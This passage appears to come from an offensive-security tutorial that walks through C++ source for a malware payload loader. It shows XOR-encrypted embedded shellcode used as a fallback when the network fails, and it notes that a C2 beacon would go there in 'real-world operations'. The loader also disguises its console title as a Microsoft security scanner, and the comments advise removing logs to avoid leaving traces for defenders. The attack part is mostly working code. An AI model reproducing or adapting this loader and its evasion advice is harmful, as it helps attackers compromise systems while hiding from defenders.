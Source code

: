 The GetEmbeddedPayload method provides a fallback when network access fails:

```cpp
    std::vector<BYTE> GetEmbeddedPayload() {
        LOG("Loading embedded fallback payload");
        // Simple calc.exe shellcode (example)
        std::vector<BYTE> embedded = {
            0x48, 0x31, 0xc9, 0x48, 0x81, 0xe9, 0xc6, 0xff, 0xff, 0xff,
            0x48, 0x8d, 0x05, 0xef, 0xff, 0xff, 0xff, 0x48, 0xbb, 0x7c,
            0x21, 0x41, 0x5e, 0xe2, 0xb5, 0xfe, 0xa0, 0x48, 0x31, 0x58,
            0x27, 0x48, 0x2d, 0xf8, 0xff, 0xff, 0xff, 0xe2, 0xf4
        };
        
        std::vector<BYTE> key = { 0xDE, 0xAD, 0xBE, 0xEF, 0xCA, 0xFE, 0xBA, 0xBE };
        XorCrypt(embedded, key);
        return embedded;
    }
```

This GetEmbeddedPayload method provides a basic calc.exe shellcode, purely as a demonstrative fallback example. In real-world operations, you'd typically embed a lightweight Apollo beacon here, designed to establish initial contact and then pull down the full, more capable payload from your C2 infrastructure.

### The Main Entry Point

The main function and class structure keep things clean:

```cpp
public:
    AdvancedPayloadLoader() : rng(std::random_device{}()) {}

    int Run() {
        SetConsoleTitleA(OBFSTR("Microsoft Windows Advanced Security Scanner").c_str());
        // In a production build, console logging (LOG and LOG_ERROR) would typically be removed
		// or redirected to avoid leaving traces on the target system.
        //
        //It's crucial to note that while the provided code includes console logging (via LOG and LOG_ERROR macros) for demonstration and debugging, this logging must be removed or redirected in a true operational scenario. Leaving console output active provides easy traces for defenders on a target system, severely compromising the loader's stealth.
        try {
            bool result = Execute();
            
            if (result) {
                LOG("========================================");
                LOG("  MISSION ACCOMPLISHED!");
                LOG("========================================");
            } else {
                LOG_ERROR("Mission failed");
            }
            
            return result ? 0 : 1;
        }
        catch (...) {
            LOG_ERROR("Unhandled exception occurred");
            return 1;
        }
    }
};

int main() {
    AdvancedPayloadLoader loader;
    return loader.Run();
}
```